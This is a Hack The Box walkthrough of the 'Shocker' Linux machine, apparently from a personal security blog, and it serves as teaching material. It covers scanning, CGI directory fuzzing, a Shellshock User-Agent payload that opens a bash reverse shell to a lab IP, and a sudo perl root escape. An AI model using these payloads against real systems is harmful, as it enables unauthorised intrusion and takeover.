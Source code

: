 ```yaml
---
title: "Shocker"
date: 2023-06-24T23:12:03+02:00
tags: ["privesc","web","linux"]
categories: ["hackthebox"]
author: "Ro Hackss"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Linux machine with Shellshock bash remote code execution vulnerability."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Shocker
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Shocker

![Untitled](/HTB/shocker-icon.png)

## Tools Used

- Nmap
- Gobuster
- Burpsuite

## Port Scanning

We can find two service up and running one web server in the port 80 and a ssh in port 2222

![Untitled](/HTB/shocker-1.png)

## Enumeration

If we visit the page we find a basic page with a basic html with only a picture.

![Untitled](/HTB/shocker-2.png)

![Untitled](/HTB/shocker-3.png)

When I tried to fuzz the directories of the website, I found that gobuster doesn’t found anything and after several tests i realized that the website only recognize directories adding “/” at the end of the URL.

![Untitled](/HTB/shocker-4.png)

![Untitled](/HTB/shocker-5.png)

Thanks to the error message of the website, it is observed that when no slash is added, a "not found" page is returned. In this example, the "cgi-bin" directory is tested. "cgi-bin" is specifically tested because the name of the machine gives a clue that it is likely vulnerable to the Shellshock Bash remote code execution vulnerability, which affects web servers utilizing CGI (Common Gateway Interface).

![Untitled](/HTB/shocker-6.png)

A quick fuzzing with the flag "-f" in Gobuster is performed, forcing the slash at the end of the URL. Three directories are discovered. Now, the "/cgi-bin/" directory is fuzzed to search for any interesting file such as .php, .py, .html, .js, or .sh. In this case, the "-f" flag is not used because files are being searched for.

![Untitled](/HTB/shocker-7.png)

We find a file named [user.sh](http://user.sh), lets open it

![Untitled](/HTB/shocker-8.png)

Upon opening it, it is revealed that the file is actually [test.sh](http://test.sh) file

Now let’s focus on the Shellshock vulnerability, the basis of this vuln is to edit the http request to modify the User-Agent to “() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/1234 0>&1” we can do that with burp and allows us with a listening port to have a reverse shell. 

I got all the information about Shellshock here: https://ethicalhackingguru.com/how-to-exploit-the-shellshock-vulnerability/

![Untitled](/HTB/shocker-9.png)

![Untitled](/HTB/shocker-10.png)

## Gaining an Initial Foothold

Once in the home of the pwned user shelly we can see a user.txt which has the flag

![Untitled](/HTB/shocker-11.png)

![Untitled](/HTB/shocker-12.png)

## Privilege Escalation

Now we are in let’s elevate privilege

![Untitled](/HTB/shocker-13.png)

We can see with the sudo -l that we can use perl with root privilegies without any password, let’s take this advantage to pawn the system.

If we check in [https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/perl/#sudo) we can use `sudo perl -e 'exec "/bin/sh";'` to escalate privilege.

![Untitled](/HTB/shocker-14.png)

![Untitled](/HTB/shocker-15.png)

## Lessons Learned

- What did you learn from the room?
    
    Now we have learned how to exploit the Shellshock vulnerability to gain remote code execution and how to use sudo permissions to escalate privileges.
    
- Were there any new tools or techniques used?
    
    The use of the flag -f in gobuster for directory fuzzing.

**Thank you for reading, and happy hacking! 😄**
